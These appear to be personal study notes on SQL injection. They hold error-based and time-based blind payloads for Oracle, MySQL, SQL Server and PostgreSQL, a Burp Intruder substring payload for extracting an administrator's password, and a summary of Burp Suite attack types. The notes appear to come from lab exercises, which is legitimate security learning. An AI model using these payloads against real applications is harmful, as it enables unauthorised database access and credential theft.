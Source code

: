 ##### Provoking errors
- Oracle
  - xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
    - case = false  ==> no error produced
    - TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||' = FALSE ==> execute after ELSE query
      - Condition = TRUE ==> forced error 1/0
      - Condition = FALSE ==> goes to 2nd question and asks if the info about the db is correct

  - xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
    - case = true ==> error will be produced
    - TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||' = TRUE ==> produce error that is processed by the query

#### Time
- with sleep() ==> success if the function is executed
- admin123' UNION SELECT SLEEP(5),1,x,y,z;--
- similar to blind
- admin123' UNION SELECT 1,SLEEP(5) FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_four' and TABLE_NAME='users' and COLUMN_NAME like 'password%' and COLUMN_NAME!='username';--
  
- Microsoft: 
 - '; IF (1=2) WAITFOR DELAY '0:0:10'-- = false, will springt action
 - '; IF (1=1) WAITFOR DELAY '0:0:10'-- = true, action

- PostgreSQL:
  - ' || (SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END)--


- in the intruder: substring method with password list
' AND (SELECT SUBSTRING(password,X,1) FROM users WHERE username = 'administrator')='§a§;
 - SUBSTRING(string, start, length)
 - Cluster Bomb: several $payload$, one for the position_number, one for the string
 - Brute_force: iterate over given list

- Known table, columns:
  - admin123' UNION SELECT 1,2,[sleep(5)] from *table_name* where *column* like '[character]%';--
  - admin123' UNION SELECT 1,2,[sleep(5)] from *table_name* where username='[name]' and password like 'a%';--


admin123' UNION SELECT SLEEP(5),2 where database() like 'u%';--
admin123' UNION SELECT SLEEP(5),2;--

# burpsuite

## Repeater
- manipulate the request
- check response
- 
## Intruder
- brute force and fuzzing
- Positions: where to insert payload
- Attack types 
  - **sniper**: one set of payload (wordlist) / i.g. username/password
  - **battering ram**: same payload in every position
  - **pitchfork**: several sniper at the same time, one payload per position. For credentials
  - **Clusterbomb**: multiple payload, individual iteration, every combination
